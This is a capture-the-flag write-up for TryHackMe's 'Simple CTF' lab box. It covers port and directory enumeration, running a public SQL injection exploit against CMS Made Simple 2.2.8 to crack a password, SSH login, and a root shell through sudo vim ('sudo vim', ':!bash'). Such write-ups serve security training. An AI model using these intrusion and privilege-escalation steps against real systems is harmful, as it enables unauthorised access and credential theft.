# Simple CTF - TryHackMe

**Difficulty**: Easy
**Time Required**: 25 min
## Recon
Start enumerating with nmap using the syntax
`nmap -T4 -sV -p- 10.67.153.113`

**Q1**: How many services are running under port 1000?

**Q2**: What is running on the higher port?

**Q3**: What's the CVE you're using against the application?
Notice that there is a web server running on port 80.

We want to know the version of web software so that we can further exploit it.
Enumerate directory using gobuster with the following syntax
`gobuster dir -u 10.67.153.113:80 -w /usr/share/wordlists/dirb/common.txt`

- **dir** for directory enumeration
- **-u** for URL
- **-w** for wordlist


There is directory on the web server with the name `/simple`
Visiting this directory gives us the version of the web software

Now, we need to check for the exploits available for the `CMS Made Simple version 2.2.8`
Visit https://www.exploit-db.com/ and search with the keyword **CMS Made** and find the exploit that matches over web software's version.

Open that exploit and copy the **CVE**.

**Q4**: To what kind of vulnerability is the application vulnerable?

SQL injection is often referred to as SQLi
## Exploitation
**Q5**: What's the password?

  Download this exploit and run it with python.
  `python 46635.py -u http://10.67.153.113/simple/ --crack -w /usr/share/wordlists/rockyou.txt`
  Specify the url with **-u** and wordlist with **-w** flag.
### Error 
  If you are getting an error try running it with python2 and edit the exploit like this
  - Remove this completely from the script (on Line: 2) `on from termcolor import colored` and `from termcolor import cprint` (Line: 4).
  - Search for these lines and change them like this:

```
cprint(output,'green', attrs=['bold'])
cprint('[*] Try: ' + value, 'red', attrs=['bold'])
cprint(output,'green', attrs=['bold'])`
print colored("[*] Now try to crack password")
  ````
Change these lines to
````
print(output)
print('[*] Try: ' + value)
print(output)
print ("[*] Now try to crack password")
````

Now run it with `python2 46635.py -u http://10.67.153.113/simple/ --crack -w /usr/share/wordlists/rockyou.txt`
**Output**:

**Q6**: Where can you login with the details obtained?
You can log in via SSH, as we previously identified that the machine was running SSH.
**Q7**: What's the user flag?
Run this command to get the user flag
`cat /home/mitch/user.txt `
**Q8**: Is there any other user in the home directory? What's its name?
Run this command to see other users
`ls /home`
**Q9**: What can you leverage to spawn a privileged shell?
Run this command to find out what mitch can run `sudo -l`
**Output**:
````
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
````

**Q10**: What's the root flag?
We can run `vim` as sudo so run the command.
`sudo vim` and type `:!bash` to spawn shell as root.

Finally run the command `cat /root/user.txt` to get the root flag.
